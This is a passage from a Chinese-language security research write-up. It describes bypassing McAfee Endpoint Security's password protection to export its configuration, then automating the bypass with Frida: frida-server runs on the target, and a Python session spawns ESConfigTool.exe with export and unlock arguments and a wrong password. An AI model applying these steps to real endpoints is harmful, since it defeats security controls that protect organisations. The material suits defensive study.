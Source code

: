 [![](https://p5.ssl.qhimg.com/t014b762bc2465e61c8.png)](https://p5.ssl.qhimg.com/t014b762bc2465e61c8.png)

现在我们可以在受限权限且不知道正确密码的情况下，从McAfee Endpoint Security中导出配置信息。



## 0x06 自动化操作

目前的进展非常顺利，然而如果每次都需要attach调试器，手动修改返回值，显然是非常痛苦的操作。幸运的是，[Frida](https://www.frida.re/)可以提供援手。如果大家不熟悉Frida，建议了解一下。该工具可以帮我们做很多操作，比如hook函数、修改返回值等，我们只需要了解JavaScript就能完成这些任务。

但是我们如何将Frida注入McAfee呢？非常简单，使用[frida-server](https://github.com/frida/frida/releases/download/12.7.9/frida-server-12.7.9-windows-x86_64.exe.xz)即可。我们可以在运行McAfee的主机上打开该工具，然后使用Python发起连接。

**McAfee目标主机：**

```
Microsoft Windows [Version 10.0.16299.15]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Users\admin&gt;cd \temp

C:\temp&gt;frida-server-12.7.9-windows-x86_64.exe
```

**Python主机：**

```
Python 3.6.7 (default, Oct 22 2018, 11:32:17) 
[GCC 8.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
&gt;&gt;&gt; import frida
&gt;&gt;&gt; devmgr = frida.get_device_manager()
&gt;&gt;&gt; devmgr.add_remote_device('192.168.31.150')
Device(id="tcp@192.168.31.150", name="192.168.31.150", type='remote')
&gt;&gt;&gt; rdev = frida.get_device('tcp@192.168.31.150')
&gt;&gt;&gt; args = [
...   'ESConfigTool.exe',
...   '/export',
...   'frida-export.xml',
...   '/module',
...   'ESP',
...   '/unlock',
...   'startrek',
...   '/plaintext'
... ]
&gt;&gt;&gt; pid = rdev.spawn(args)
&gt;&gt;&gt; session = rdev.attach(pid)
&gt;&gt;&gt; session
Session(pid=11168)
```

成功连接，且`ESConfigTool.exe`处于运行状态！

[![](https://p5.ssl.qhimg.com/t01d2e6f973d1e7844d.png)](https://p5.ssl.qhimg.com/t01d2e6f973d1e7844d.png)
